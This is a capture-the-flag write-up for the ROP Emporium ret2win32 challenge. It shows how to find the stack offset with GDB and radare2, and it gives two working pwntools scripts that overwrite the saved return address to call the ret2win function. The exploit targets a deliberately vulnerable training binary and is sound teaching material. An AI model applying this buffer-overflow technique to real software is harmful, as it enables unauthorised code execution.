






# ret2win32

Link: https://ropemporium.com/challenge/ret2win.html

Description: *Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack.*

--------------------------


## 1. Studying the binary

List functions with:

```
nm ret2win32 | grep 't'
```


Or with radare:

```
r2 ret2win32
aaaa
afl
```


Then we can disassembly this function using again radare:

```
r2 ret2win32
aaaa
s sym.ret2win
pdf
```


We can disassembly the main function too:




## 2. Calculating EIP overwrite offset

I will open GDB with GEF script:

```
gdb -q ./ret2win32
```

Using Python we create characters to test when it crashes:


With 45 we overwrite only 1 byte, so the offset is 44:


Note: It will be the same offset for all the 32 bits binaries of Rop Emporium.


## 3. Calling ret2win

We can find the function address with:

```
objdump -D ret2win32 | grep ret2win
```


This address can be found also using gdb (*info functions*).


## 4. Final exploit

The exploit code is then:

```
from pwn import *

context(arch='i386', os='linux')
p = process('./ret2win32')

junk =    "A"*44
ret2win = 0x08048659
rop = junk + p32(ret2win)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```

The result:


---------------------

---------------------

---------------------


# 2024 update

Check the 56-bytes buffer in read() call is correct:

```
ltrace ./ret2win32
```



In GDB disassemble main function:

```
disass main
```



Now the pwnme function. In line +92 we can re-check the buffer size:

```
disass pwnme
```



Create pattern:


Content in ESP and the first address in stack:


Those are at offset 44 and 48:


Find ret2win function address:



Create exploit:

```
from pwn import *

sh = process('./ret2win32')

a = sh.recvuntil(">")
print(a)

payload = b'\x41'*44
payload += b'\x2c\x86\x04\x08' #0x0804862c
payload += b'\x41'*(84-len(payload))

print(payload)
print(len(payload))

sh.sendline(payload)

b = sh.recvline(timeout=5)
print(b)
b = sh.recvline(timeout=5)
print(b)
b = sh.recvline(timeout=5)
print(b)

sh.close()
```


Get flag:


